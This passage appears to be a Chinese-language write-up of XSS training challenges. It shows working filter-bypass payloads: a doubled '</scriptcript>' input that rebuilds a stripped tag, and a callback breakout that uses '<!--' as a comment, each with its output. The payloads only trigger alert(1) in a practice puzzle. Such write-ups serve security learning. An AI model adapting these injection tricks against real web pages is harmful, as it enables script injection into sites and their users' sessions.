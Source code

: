 可以双写绕过

例

输入`</s</scriptcript>`

`</script`被替换为空

结果为`</script`

Payload

```
</s</scriptcript><script>alert(1)//
```

Output

```
<script>console.log("</script><script>alert(1)//");</script>
```

Console output

```
Error: Uncaught SyntaxError: Invalid or unexpected token
```



## Callback 2

```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```

和Callback相比，多转义了`/`

无法使用`//`注释但是js的注释不止这一种，还可以使用`<!--`

所以这题和Callback相比只是注释符有区别

Payload

```
'#';alert(1)<!--
```

Output

```
<script>'({"userdata":"';alert(1)<!--"})</script>
```
